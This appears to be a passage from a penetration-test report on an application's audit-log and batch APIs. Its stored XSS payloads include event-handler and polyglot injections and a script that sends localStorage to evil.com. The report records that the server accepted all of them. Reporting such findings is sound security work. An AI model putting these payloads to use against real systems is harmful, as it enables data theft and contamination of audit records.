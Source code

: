 
### Test 3: Audit Log XSS Injection

#### Critical Security Log Contamination
```bash
POST /api/audit-logs
{
  "batchId": "<script>alert(\"AUDIT_XSS\")</script>",
  "action": "<img src=x onerror=alert(\"ACTION_XSS\")>",
  "details": "<svg onload=alert(\"DETAILS_XSS\")>",
  "performedBy": "<script>fetch(\"http://evil.com/exfiltrate?data=\"+JSON.stringify(localStorage))</script>"
}
```

**🔴 CRITICAL FINDING: AUDIT TRAIL CONTAMINATION**
- **Status**: ✅ **COMPLETELY SUCCESSFUL**
- **Response**: 200 OK - Audit log created with XSS payloads
- **Database Record**: ID 27 created with malicious scripts
- **Compliance Impact**: FDA audit trail permanently contaminated

#### Contaminated Audit Evidence:
```json
{
  "id": 27,
  "batchId": "<script>alert(\"AUDIT_XSS\")</script>",
  "action": "<img src=x onerror=alert(\"ACTION_XSS\")>",
  "details": "<svg onload=alert(\"DETAILS_XSS\")>",
  "performedBy": "<script>fetch(\"http://evil.com/exfiltrate?data=\"+JSON.stringify(localStorage))</script>",
  "createdAt": "2025-08-21T18:09:14.271Z"
}
```

---

### Test 4: Advanced Polyglot XSS Injection

#### Multi-Context Injection Testing
```bash
POST /api/batches
{
  "batchId": "POLYGLOT_XSS",
  "productName": "</title><script>alert(\"TITLE_ESCAPE\")</script>",
  "manufacturer": "javascript:alert(\"HREF_XSS\")",
  "manufacturerLicenseId": "<input onfocus=alert(\"INPUT_XSS\") autofocus>",
  "lotNumber": "<details open ontoggle=alert(\"DETAILS_XSS\")>",
  "unit": "<body onload=alert(\"BODY_XSS\")>",
  "location": "<img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,49,41))>"
}
```

**🔴 CRITICAL FINDING: POLYGLOT XSS SUCCESS**
- **Status**: ✅ **ALL PAYLOADS ACCEPTED**
- **Encoding Bypass**: Character encoding circumvention successful
- **Event Handler Injection**: Multiple event-based XSS vectors stored
- **Context Breaking**: Title tag escape sequences persisted

---